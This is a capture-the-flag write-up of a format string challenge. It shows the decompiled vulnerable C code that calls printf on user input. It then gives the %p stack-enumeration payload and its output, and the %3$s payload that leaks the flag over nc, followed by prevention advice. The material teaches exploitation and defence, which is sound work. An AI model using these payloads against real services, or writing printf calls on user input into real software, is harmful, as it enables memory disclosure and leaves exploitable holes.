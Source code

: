 #Challenge Description
Points: 50
Category: Binary Exploitation / Format String

In the heart of the cyber-conflict, "Mr. Robot's Printing Press" is churning out battlefield intelligence for commanders worldwide. But the press's output console — the Warzone Terminal — has a flaw. Anything you say is echoed back into the network without proper security checks.

Target: nc exploit.cyberbattle.info 9797

Connected to the service and received an ASCII art banner for "MR. ROBOT'S PRINTING PRESS - WARZONE TERMINAL". The challenge name "Operation Echo" and description about echoing input without security checks immediately suggested a format string vulnerability.

Binary Analysis
Using Binary Ninja to decompile the binary revealed the following key code in main():

int32_t main()
{
    FILE* fp = fopen("flag.txt", "r");
    
    if (!fp)
    {
        perror("flag.txt");
        return 1;
    }
    
    fgets(&flag, 0x100, fp);
    fclose(fp);
    setvbuf(__bss_start, nullptr, 2, 0);
    banner();
    
    while (true)
    {
        printf(&data_402234);  // Prints prompt
        char var_118[0x108];
        
        if (!fgets(&var_118, 0x100, stdin))
            return 0;
        
        if (!strncmp(&var_118, "exit", 4))
        {
            puts(&data_402250);
            return 0;
        }
        
        printf(&var_118, &var_118, &var_118, &flag);  // VULNERABILITY!
        puts(&data_402273);
    }
}

The Vulnerability
The critical vulnerability is on this line:

printf(&var_118, &var_118, &var_118, &flag);

Exploitation Process

Step 1: Stack Enumeration
First, I enumerated the stack to understand the memory layout:

$ nc exploit.cyberbattle.info 9797
⚡ EXECUTE PAYLOAD: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x7ffe8dde2240 0x7ffe8dde2240 0x404080 (nil) 0x2ee0f480 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70252070 (nil) 0x4f00000006 0x2 (nil)

Step 2: Identifying the Flag Location
From the stack dump:
- Position 1: 0x7ffe8dde2240 - Stack address (user input buffer)
- Position 2: 0x7ffe8dde2240 - Same buffer (passed twice)
- Position 3: 0x404080 - Data segment address (flag location!)
- Position 4: (nil) - NULL

The address 0x404080 stood out as a data segment address (0x40xxxx range), which is exactly where a global flag buffer would be stored.

Step 3: Reading the Flag
Since the flag buffer address is at the 3rd position in the printf arguments, I used the format string specifier %3$s to dereference it and print the flag as a string:

$ nc exploit.cyberbattle.info 9797
⚡ EXECUTE PAYLOAD: %3$s
flag{f0rm4t_str1ng_3xpl01t_succ3ss}

Why This Works
The format string %3$s tells printf to:
- Access the 3rd argument (0-indexed would be position 3)
- Treat it as a pointer to a string ($s)
- Dereference the pointer and print the string

Since the 3rd argument contains the address of the flag buffer (0x404080), printf reads from that address and outputs the flag contents.

Key Takeaways
- Format string vulnerabilities occur when user input is passed directly as the format string to functions like printf, sprintf, etc.
- Direct parameter access (%n$x syntax) allows reading from specific stack positions
- Memory layout analysis through stack enumeration helps identify interesting addresses
- Global variables in binaries typically reside in predictable memory regions (data segment ~0x404000)

Prevention
This vulnerability could be prevented by:
- Using printf("%s", user_input) instead of printf(user_input)
- Input validation and sanitization
- Compiler flags like -Wformat-security to catch these issues

Flag: flag{f0rm4t_str1ng_3xpl01t_succ3ss}

